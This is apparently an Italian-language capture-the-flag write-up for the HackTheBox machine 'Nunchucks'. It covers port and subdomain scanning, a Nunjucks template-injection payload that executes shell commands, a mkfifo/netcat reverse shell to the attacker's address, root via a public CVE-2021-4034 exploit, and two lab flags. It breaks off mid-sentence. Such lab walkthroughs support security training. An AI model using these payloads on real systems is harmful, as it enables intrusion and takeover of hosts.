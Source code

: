 # Nunchucks
* **POINTS**: 0
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.8

## 1. Recon
```shell
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.122
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-14 08:58 EDT
Nmap scan report for 10.10.11.122
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.16 seconds
```

### 1.1 TCP 80 
#
Ci redirige verso il subdomain `nunchucks.htb` che aggiungiamo in */etc/hosts* ma non funziona sul tale porta

### 1.2 TCP 443
#
![page](Images/web.png)

```shell
└─$ wfuzz --hw 2271 -H "Host: FUZZ.nunchucks.htb" -w ~/Scaricati/SecLists/Discovery/DNS/subdomains-top1million-5000.txt https://nunchucks.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                           
=====================================================================

000000081:   200        101 L    259 W      4028 Ch     "store"                                           

Total time: 79.27308
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 62.93434
```

### 1.3 store.nunchucks.htb
#
<p align="center">
  <img src="Images/store.png" />
</p>

Proviamo a inviare una email e notiamo che ciò che mettiamo viene riportato a video

<p align="center">
  <img src="Images/email.png" />
</p>

## 2. SSTI
Il fatto che vediamo a video ciò che passiamo, fa pensare alla possibilità di avere *SSTI*.

### 2.1 PoC
#
<p align="center">
  <img src="Images/PoC-SSTI.png" />
</p>

Ok, ci siamo... vediamo quale *engine* c'è dietro. Sul sito di [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) un particolare *engine* attira la mia attenzione "*NUNJUCKS (NodeJS)*"

Costruiamo la richiesta di POST su burp (ci da info su come costruirla */assets/js/main.js*) ed inviamo il seguente payload trovato su questo [articolo](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine):

`{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}`

<p align="center">
  <img src="Images/passwd.png" />
</p>

Lanciando il comando `id` scopriamo che siamo l'utente *david*, quindi in */home/david* abbiamo la user flag: `880da626fdd64dfeb38502a95a2a6912`

Ci apriamo una shell:

`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.16 9001 >/tmp/f')\")()}}`

Facciamo una shell "bella"

```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
david@nunchucks:/var/www/store.nunchucks$ ^Z
[1]+  Fermato                 nc -lvnp 9001
┌──(asd㉿asd)-[~/Scrivania/Nunchucks]
└─$ stty raw -echo; fg
nc -lvnp 9001

david@nunchucks:/var/www/store.nunchucks$
```

## 3. Privilege Escalation
Carico *linpeas* sulla macchina e mi da una informazione molto interessante:

```shell
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                                                                       
Sudo version 1.8.31                                                                                                

Vulnerable to CVE-2021-4034
```

Quindi mi scarico la [CVE](https://github.com/berdav/CVE-2021-4034), faccio *make*, mi creo uno zip e lo passo sulla macchina.

Estraggo i file ed eseguendo *cve-2021-4034.sh* divento root

```shell
david@nunchucks:/tmp/CVE-2021-4034$ ./cve-2021-4034
# whoami
root
```

In */root* ho la root flag: `26cddc363c5ee4b980df0e4338970688` 


## 4. Modo alternativo per fare priv
Sempre in *linpeas* si vede che perl ha come capabilities `cap_setuid+ep`

Cercando su Google